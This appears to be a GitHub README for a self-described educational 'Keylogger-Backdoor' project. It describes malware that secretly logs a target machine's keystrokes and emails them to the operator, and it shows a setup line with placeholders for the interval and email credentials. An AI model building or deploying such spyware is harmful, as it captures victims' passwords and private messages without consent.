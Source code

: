 # Keylogger-Backdoor
This is an educational project that sends target machine's key press log to a cloud server by creating a backdoor. 

## Current version of Keylogger & Backdoor
In current version, <br>
Once the target user is affected by the script it sends us an email of its key log at a time interval which can edit from inside the script file.  
`keylogger = Keylogger([TIME_INTERVAL_GOES_HERE], "[YOUR_EMAIL_HERE]", "[EMAIL_PASSWORD_HERE]")` <br>

<br>
<br>
![3](https://user-images.githubusercontent.com/90370604/148632393-ec22b612-d75e-4c7a-be4d-131bc31b3c31.jpg)


![148632393-ec22b612-d75e-4c7a-be4d-131bc31b3c31](https://user-images.githubusercontent.com/90370604/148632417-d2a21e9e-d5f2-426f-b534-a7dff4e6aceb.jpg)
